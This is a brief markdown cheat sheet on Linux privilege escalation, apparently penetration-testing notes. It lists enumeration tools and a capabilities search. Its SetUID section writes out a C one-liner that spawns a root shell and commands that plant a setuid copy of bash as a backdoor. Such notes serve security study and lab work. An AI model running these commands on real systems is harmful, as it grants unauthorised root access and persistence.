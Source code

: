 ```yaml
---
title: Linux Privesc
description: Linux privilege escalation.
---
```


# Linux Privesc

## Tools

- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux Priv Checker](https://github.com/linted/linuxprivchecker)

## Capabilities

```bash
getcap -r / 2>/dev/null
```

## SetUID

```bash
echo 'int main(){setresuid(0,0,0);system("/bin/sh");}' > tmp.c
gcc tmp.c -o tmp

cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
/tmp/bash -p
```